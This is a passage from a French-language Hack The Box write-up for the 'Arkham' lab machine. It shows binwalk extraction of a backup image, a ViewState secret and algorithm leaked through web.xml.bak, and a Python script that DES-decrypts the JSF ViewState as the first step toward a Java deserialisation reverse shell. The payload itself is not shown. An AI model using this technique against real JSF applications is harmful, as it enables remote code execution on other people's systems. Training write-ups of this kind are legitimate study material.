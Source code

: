 Les fichiers ont été extrait avec succès, donc si vous regardez dans le dossier créé par `binwalk` vous verrez que les données sont bien présent dans le dossier.

    root@Seyptoo:~/htb/box/Arkham# cd _backup.img.extracted/
    root@Seyptoo:~/htb/box/Arkham/_backup.img.extracted# cd Mask
    root@Seyptoo:~/htb/box/Arkham/_backup.img.extracted/Mask# ls
    me.jpg  mycar.jpg  robin.jpeg  tomcat-stuff

HTTP - 8080
----
Pour cette partie nous avons des informations, vous verrez que dans le fichier `web.xml.bak` ce fichier sera la clé pour faire notre reverse shell dans ce système. Donc sur le port 8080 il y'a un chemin plutôt intéréssant, dans le chemin `userSubscribe.faces`. Si vous regardez bien dans le code source de la page il y'a un `ViewState` et cette partie sera vulnérable à l'attaque `Java Deserialisation`. Nous allons essayer de déchiffrer `ViewState` avec un script Python.
 
Revenons sur notre fichier `web.xml.bak`, dans ce fichier XML il y'a des informations très interéssant, il y'a le type d'algorithme utilisé et également le secret pour justement déchiffrer `ViewState` et également ensuite chiffrer notre payload.

[![forthebadge made-with-python](https://image.noelshack.com/fichiers/2019/25/5/1561127390-capture-du-2019-06-21-16-29-39.png)](https://image.noelshack.com/fichiers/2019/25/5/1561127390-capture-du-2019-06-21-16-29-39.png)

SECRET     : [SnNGOTg3Ni0=] en texte : "JsF9876-". <br />
ALGORITHME : [HmacSHA1].

Le script Python pour déchiffrer `ViewState` : 

    from Crypto.Cipher import DES
    import base64
    from hashlib import sha1
    import hmac

    def pad(s):
            return s + (block_size - len(s) % block_size) * chr(block_size - len(s) % block_size)

    block_size = DES.block_size
    key = "JsF9876-"

    viewstate = "wHo0wmLu5ceItIi+I7XkEi1GAb4h12WZ894pA+Z4OH7bco2jXEy1RQxTqLYuokmO70KtDtngjDm0mNzA9qHjYerxo0jW7zu1mdKBXtxnT1RmnWUWTJyCuNcJuxE="
    viewstate = base64.b64decode(viewstate)
    obj = DES.new(key, DES.MODE_ECB)
    decrypted_viewstate = obj.decrypt(pad(viewstate))
    print(decrypted_viewstate)

Donc si tout ce passe très bien, vous aurez le lien ou plus précisement le chemin `userSubscribe.faces` lors du déchiffrement de `ViewState`.

